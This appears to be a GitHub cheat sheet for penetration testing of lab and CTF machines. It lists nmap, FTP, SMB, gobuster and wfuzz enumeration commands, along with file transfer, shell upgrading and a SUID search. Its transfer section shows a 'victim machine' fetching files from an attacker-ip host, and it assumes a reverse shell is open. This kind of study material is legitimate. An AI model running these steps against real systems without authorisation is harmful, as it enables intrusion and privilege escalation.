 
- [Port Scanning](#psc)
- [21 - FTP Port](#ftp)
- [139/445 - Samba/SMB](#smb)
- [Directory Enumeration](#dir)
- [Pyhton server for file transmision](#ft)
- [Upgrade Shell](#us)
- [File searching](#fts)


# Port Scanning <a name='psc'></a>

## nmap
- `-sV` shows the version of the service running on each port.
- `-sC` uses additional scripts to gather more information.
- `-sS` stealth scan.
- `-p-` scans all ports. 
-  `-Pn-` Skip recognition phase.
- `-p <port>` scans only the specified port number. 
-  `--open` only displays open ports.
- `--min-rate` Specifies the minimum number of packets Nmap should send per second; increasing this number speeds up the scan. 
```bash
nmap  -sS -sC -sV -p21 10.129.42.253
```
### nmap scripts
**nmap** has the option of checking if there are some known vulnerabilities for the services versions that are being used at the machine. We just need to specify the port and the target ip.
```bash
nmap -p<port> --script vuln <target_ip>
```


# FTP Port <a name='ftp'></a>

```bash
# anonymous login
ftp <machine-ip>
# username anonymous
# password anonymous
```

# Samba/SMB Port <a name='smb'></a>

## SmbClient 
It is a network protocol that allows users to communicate with remote computers and servers to use their resources or share, open, and edit files.

- `-U` access as user.
- `-N` No password.
- `-L` This option allows you to look at what services are available on a server.
```bash
smbclient -U bob \\\\10.129.42.253\\users
    
smbclient -N -L \\\\10.129.117.14\\
```

# Directory Enumeration <a name='dir'></a>

## Gobuster
It is a command-line tool used for performing brute-force scans or directory and subdomain enumeration on a website.
- To find subdirectories:
````bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#wordlist example: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
#machine example: 10.10.192.23 or http://10.10.192.23:80
#-q to don't print the errors
gobuster dir -u <machine-ip> -w <wordlist> -o gobuster.out -t 200
````

- To find subdomains:
```bash
#wordlist example: /usr/share/dnsrecon/subdomains-top1mil-20000.txt
#machine ip example: 10.10.192.25
gobuster vhost -w <wordlist> -u <machine-ip> -o gobuster.out
````

## wfuzz
It is a command-line tool used for performing brute-force scans or directory and subdomain enumeration on a website. Also, it can be useful for enumerate files with an specific extension.
- To find subdirectories:
```bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#machine example: 10.10.192.23
#-c print with colours
#--hc 404 don't print errors
wfuzz -c --hc 404 -w <wordlist> http://<machine-ip>/FUZZ
```

- To find common files:
```bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#machine example: 10.10.192.23
#-c print with colours
#--hc 404 don't print errors
wfuzz -c --hc 404 -w <wordlist> http://<machine-ip>/FUZZ.php
```


# Python server for file transmision<a name="ft"></a>

```bash 
# on the attacker machine
python3 -m http.server 8081

# on the victim machine
wget http://<attacker-ip>:<port>/<file>
curl http://<attacker-ip>:<port>/<file> -o <output-file>
```


# Upgrade Shell <a name='us'></a>

When we do a reverse shell, sometimes, we will need to upgrade our shell.

- Specifically, what it does is establish a new interactive terminal with advanced features, such as full control of function keys, command history, and the ability to use commands like Ctrl+C and Ctrl+Z. This can be useful in situations where greater interactivity is needed in a limited shell session.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# we need to *restart* to apply the changes, so we do:  
CTRL+Z  
stty raw -echo; fg  
reset xterm
export TERM=xterm
export SHELL=bash
```

# File searching <a name='fs'></a>

## find

Parameters:
- `-name <pattern>`: Matches files or directories with a specific name pattern.
- `-type <type>`: Matches files or directories of a specific type (e.g., `f` for regular files, `d` for directories, `l` for symbolic links).
- `-size <size>`: Matches files based on their size. For example, `+10M` matches files larger than 10 megabytes.
- `-mtime <time>`: Matches files based on their modification time. For example, `-mtime -7` matches files modified within the last 7 days.
```bash
# Use 2>/dev/null if you don't want to see errors output
find [path] [expression] 2>/dev/null
```

Also,  *find* can be useful to find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.
```bash
# Use 2>/dev/null if you don't want to see errors output
find / -perm -u=s -type f 2>/dev/null
```


